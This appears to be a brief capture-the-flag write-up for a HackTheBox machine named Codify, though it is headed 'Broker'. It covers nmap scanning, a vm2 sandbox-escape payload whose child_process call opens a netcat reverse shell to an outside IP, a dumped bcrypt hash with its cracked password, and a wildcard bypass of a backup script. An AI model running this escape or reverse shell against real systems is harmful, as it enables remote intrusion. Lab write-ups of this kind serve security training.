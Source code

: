 # #1 Introduction
Broker

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx codify.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- codify.htb
```

we got these open ports
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

There is a nodeJS framework running\
The platform allow to execute nodeJS code with the vm : vm2 https://github.com/patriksimek/vm2/releases/tag/3.9.16

it seems that vm2 has some criticals issues like remote code execution\


async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.146 6666 >/tmp/f'); }
            )
        }
    }
};
p.then();



sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

joshua:spongebob1

we can bypass condition in script /opt/scripts/mysql-backup.sh by using the wildcard *
if we do 2 connections and watch the process in a second account with pspy64, we can see the process executed

kljh12k3jhaskjh12kjh3
